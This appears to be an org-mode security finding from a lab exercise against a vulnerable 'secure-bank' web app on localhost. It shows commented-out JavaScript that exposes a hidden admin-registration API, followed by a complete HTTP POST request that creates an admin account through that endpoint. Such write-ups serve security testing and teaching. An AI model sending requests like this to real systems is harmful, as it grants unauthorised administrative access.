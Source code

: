 #+title: Exposure Of Sensitive Functs
#+author: gabriel

* source pages review
After a review of several secure-bank pages, at register page present at login page ->

#+begin_example

                    //$('.btnRegister').on('click', function (event) {
                    //    $.ajax({
                    //        type: "POST",
                    //        url: "/api/Auth/RegisterAdmin",
                    //        data: JSON.stringify({ "UserName": $('.UserEmail').val(), "Password": $('.Password').val() }),
                    //        contentType: 'application/json',
                    //        success: data => {
                    //            console.log('SUCESSS');
                    //            var parsedData = JSON.parse(data);
                    //            if (parsedData.status == "ok") {
                    //                $('.cd-popup4').addClass('is-visible');  //show popup
                    //                setTimeout(function () {
                    //                    window.location.href = "/Auth/Login";
                    //                }, 8000)
                    //            } else {
                    //                console.log('ERROR1');
                    //                $('.cd-popup3').addClass('is-visible');  //show popup

#+end_example

which means there is an endpoint to register admins, that someone ended up forgetting to comment

* send a POST request to this endpoint to creat Admin account

#+begin_example
POST /api/Auth/RegisterAdmin HTTP/1.1
Host: localhost:1337
sec-ch-ua: "Chromium";v="139", "Not;A=Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:1337/PortalSearch?SearchString=e12e1
Accept-Encoding: gzip, deflate, br
Cookie: SessionId=YmllbEBtYWlsLmNvbQ%3D%3D%268ab6a252dedfcc7250be4bf143e6ea1de8fd5beddab53124c02ea55cf5d923c9%
Connection: keep-alive
Content-Type: application/json
Content-Length: 53

{"UserName": "lio@email.com", "Password": "password"}
#+end_example
